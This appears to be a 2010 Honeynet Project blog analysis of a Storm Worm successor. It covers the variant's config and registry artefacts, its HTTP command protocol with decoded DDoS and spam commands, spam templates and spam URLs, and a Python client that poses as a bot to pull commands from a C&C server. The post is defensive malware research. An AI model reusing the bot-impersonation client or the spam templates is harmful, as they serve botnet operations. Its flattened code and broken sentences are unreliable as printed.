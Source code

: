 ```yaml
---
title: "A Breeze of Storm"
authors: ["Felix Leder"]
date: "2010-04-28"
categories: 
  - "encryption"
tags: 
  - "storm-worm"
  - "stormfucker"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

Today, Steven Adair from Shadowserver imformed us about a new piece of malware that looks like a new version of the infamous Storm Worm. Storm was one of the first serious peer-to-peer botnets, it was sending out spam for more than two years until its decline in late 2008. Mark Schloesser, Tillmann Werner, Georg Wicherski, and I [Stormfucker](http://www.h-online.com/security/news/item/Storm-Worm-botnet-cracked-wide-open-739607.html>did some work on how to take down Storm</a> back then, so the rumors about a new version caught our interest. Mark, Tillmann, and me started to take the sample apart, and it looks very much like Storm indeed. It even uses the same configuration file, stored under C:\WINDOWS\herjek.config (the same filename as used by the last Storm version), but as the command-and-control channel has been replaced with an HTTP based version, there is no peer list included anymmore. When we looked at it, just contained two lines:

```
[config]
ID=285220200
```

This ID is also stored in the registry under HKLM/SOFTWARE/Microsoft/Windows/ITStorage/Find, together with a mutex name that prevents execution of multiple instances of the malware on one machine.

[image:538 align=center node=538 size=original]

Just like Storm, this new malware decompresses itself into a heap section and jumps to the unpacked code. We just dumped the heap section to a file and fixed the imports to get an executable we can analyze conveniently.

Although this is already pretty good evidence that the two specimens are related, the question remains whether this is really a new Storm version, so let's have a look at the actual functionality. We compared the last version of storm to the new samples. Around 2/3s of the functions in the new sample are simply copy&paste from the last storm code base. Since the source code of storm has never been public, the same team of developers has finally created a new variant or sold it's code.
The original version was rather large, having more than 800 function. A large portion of this was the P2P code. This is missing completely in the new version and the actual command protocol is based on HTTP instead of plain TCP connections. We wonder if they don't rely on P2P anymore because of the attack implemented in

The HTTP request looks like this:

```
POST /aio.jpg HTTP/1.1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1) Host: [sanitized] Content-Length: 85 Connection: Keep-Alive Cache-Control: no-cache
```

```
a=eNozrFNMLC5OLMnMz6tTDM/MS8kvL1aICFAITi0qy0xOVQhITM5WMKpTNLQwMbG0tDQwNQeywcgAAGCpEo0HTTP/1.1 200 OK Server: nginx/0.7.65 Date: Tue, 27 Apr 2010 13:00:30 GMT Content-Type: text/html; charset=windows-1252 Transfer-Encoding: chunked Connection: close X-Powered-By: PHP/5.3.2

78 AAAAXnheDYo5DsAgDATfwgNY2QaEeQ5HkgaRgtS8PS5Wox1NHXv6TJ5D9hxtQWEKe91dGLv1Z76tTqzrOy4TLISFRj2OjuOSIFEgpIj2hQrUFCs4/dVnGE0= 0
```

All parameters and responses are base64 encoded and gzipped. Just like in the original Storm C&C protocol. The IP address of the server is hardcoded in the binary. Well, not really in the code but appended in encrypted form. The encryption is XTEA - the same cryptor used in early versions of Storm's packer.

The new version runs as "asam.exe". So, the authors have changed the executable's filename, but they either didn't look in the source code or were too lazy to change the name of the config file.

One method of command & control is implemented via HTTP requests. While looking at those requests we found another clue that this is actually a spinoff of Storm. The User-Agent is set to "Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)" which includes the (intended?) typo "Windoss" instead of "Windows" (this has already been mentioned by Steven, also). The requested path on the server consists of three random letters concatenated with a random choice from gif, jpg, htm extensions.

Also notable is the use of nginx as the web server as revealed by "Server: nginx/0.7.65" in the response. This is probably then relaying the request to upper tier servers in the C&C structure.

The actual command protocol is identical to the original Storm protocol. It consists of a handshake with two phases.

Stage 1 looks the following: `Postdata: 1~!VM1~!Windows XP Service Pack 3~!82647280~!1~!1~!0 ---- START Response data ---- secretserver.internet.ru~!1.2.3.4~!0~!195.242.208.40~!209.85.218.15`

Sent is the command "1", the machine name, operating system version, and an ID which identifies the machine in the further communication. It's like a session key used in HTTP application. The reponse is a reverse lookup of the public IP address of the host, the public IP itself, and other servers, like a Google MX.

Stage 2 looks the following:

`Postdata: 2~!82647280~!1~!0~!0 ---- START Response data ----`

Many people thought that this stage is useless. Actually, we found an "update" command in this stage of the handshake, which we used in our "Stormfucker", two years ago.

After this initial handshake, different requests for Spam (command 3) and DDoS attacks (command 6) are sent to the server.

The request for DDoS target is shown in the following. The response is empty (IP address: 0.0.0.0). In case of active DDoS targets, the IP address can be seen here.

`Postdata: 6~!82647280~!1~!0 ---- START Response data ---- 0.0.0.0:0;0.0.0.0:0;1;1 0.0.0.0:0;0.0.0.0:0;2;1`

The spam part looks the following. The client sends the spam-request command and the server returns the spam-templates, including faked mail server versions, subjects, receipients, target-domains, ...

```
Postdata: 3~!82647280~!1~!~! ---- START Response data ---- 5~!1272366542~!Date: %^D^% From: "%^C2%^Fnames^%^%" <%^V2^%@%^C1%^Fdomains^%^%> MIME-Version: 1.0 To: %^0^% Subject: %^Fpharma2^% Content-Type: text/plain; charset=%^Fcharset^% Content-Transfer-Encoding: 7bit Message-ID: <%^Z^%.%^R1-9^%0%^R0-9^%0%^R0-9^%0%^R0-9^%@%^V1^%>
```

```
%^Forder.txt^% %^Frxmeds.txt^% online today! %^Fbrowse.txt^% our web site today -> %^Frxdomains2.txt^%

~!~!eximver~!1269613000~!4.04 4.05 ... ~!domains_old~!1271522172~!007-jamesbond.com 3rivers.net 800loadcel.com ... zzum.ro ~!datingURLOLD~!1271796799~!http://12n3.com/2414 http://12n3.com/2415 ... http://vilasta.com/?yMzZuoUt ... http://wapurl.co.uk/?YCLUEZM ~!shemaleBabe~!1272144785~!babes sexy cute hot nice ~!pharma2~!1272305961~!Disappointed with your bad performance in bed? Step up your performance in bed! for the best performance in bed.. ... Want great sex? Get.. ~!datingURLNew~!1272148944~!http://www.odun.net/78774 http://yiyd.com/457991/ ... http://fytopavenukyz.my
```

Mark took some time to write a command fetcher and decoder. Have fun with it :) `#!/usr/bin/env python`

```python
import os, sys, urllib, urllib2, string, random, base64, zlib, datetime

extensions = ['.gif', '.jpg', '.htm']

def make_url(url): return url + ''.join([random.choice(string.lowercase) for i in range(3)]) + random.choice(extensions)

def get_url(turl, pdata): req = urllib2.Request(turl, urllib.urlencode(pdata)) req.add_header('Content-Type', 'application/x-www-form-urlencoded') req.add_header('Cache-Control', 'no-cache') req.add_header('User-Agent', 'Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)') r = urllib2.urlopen(req) c = r.read() return c

def decode(raw): a = base64.b64decode(raw) b = zlib.decompress(a[a.find('x'):]) return b

def fetch(url, cmd): pdata = [('a', base64.b64encode(zlib.compress(cmd)).replace('=','') ),] furl = make_url(url) print ' Fetching', furl c = get_url(furl, pdata) print ' -> got', len(c), 'bytes' return c

def randomstr(length): return ''.join([random.choice(string.letters) for i in range(length)])

def randomdigits(length): return ''.join([random.choice(string.digits) for i in range(length)])

if __name__ == '__main__': from optparse import OptionError from optparse import OptionParser

version = """-------------------------- HTTP Command client for Storm worm 2 (supposedly) Version 1, by Honeynet Project --------------------------""" usage = '%s [-t target]' % sys.argv[0] parser = OptionParser(version=version, usage=usage)

parser.add_option('-t', dest='target', help='hostname/ip') (options, args) = parser.parse_args()

if not options.target: parser.print_help() sys.exit(1)

url = 'http://{0}/'.format(options.target)

seqnr = randomdigits(8) requests = [ '1~!{0}~!Windows XP Service Pack 3~!{1}~!1~!1~!0'.format(randomstr(8),seqnr), '2~!{0}~!1~!0~!0'.format(seqnr), '6~!{0}~!1~!0'.format(seqnr), '3~!{0}~!1~!~!'.format(seqnr), ]

print version print 'Using C&C URL', url

now = datetime.datetime.now() print 'Storing results in directory', str(now)

for r in requests: cmd = r[0] raw = fetch(url, r) dec = decode(raw) if not os.path.exists(str(now)): os.mkdir(str(now)) fpath = os.path.join(str(now), 'cmd_' + cmd + '.txt') fd = open(fpath, 'w') print >>fd, 'Requesting cmd {0} on {1}:'.format(cmd, url) print >>fd, 'Postdata:', r print >>fd, '---- START Response data ----' fd.write(dec) fd.close()

print '-> Done.' sys.exit(0)
```
